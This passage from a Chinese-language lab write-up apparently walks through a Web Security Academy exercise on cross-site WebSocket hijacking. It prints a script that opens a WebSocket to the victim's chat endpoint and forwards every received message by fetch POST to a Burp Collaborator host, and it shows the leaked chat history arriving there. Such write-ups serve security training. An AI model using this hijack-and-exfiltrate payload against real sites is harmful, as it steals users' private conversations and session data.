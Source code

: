 
```plain
<script>
    var ws = new WebSocket('wss://0a5b005b04b58a4785f8ef680011001f.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://va9kalmffwrnofty137wjxqy6pch06.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

[![](assets/1705890866-14a38786406eb8565ac76aa4b98a9bd5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118110747-c1e59262-b5ae-1.png)  
随后分发请求给受害者用户并刷新burpsuite中的DNS监听，可以看到又HTTP请求过来  
[![](assets/1705890866-7adb14e2aa619e7a51cc0d84840200b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118110803-cb6942a2-b5ae-1.png)  
尽管已经确认了CSWSH漏洞，但只是泄露了一个全新会话的聊天历史记录，并不是特别有用，随后我们转到历史记录中可以看到请求并没有包含cookie  
[![](assets/1705890866-958f9c15ac4dc85b2bf38d892d508e44.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118110819-d4f3fe52-b5ae-1.png)  
重新创建先前在漏洞利用服务器上测试的CSWSH脚本
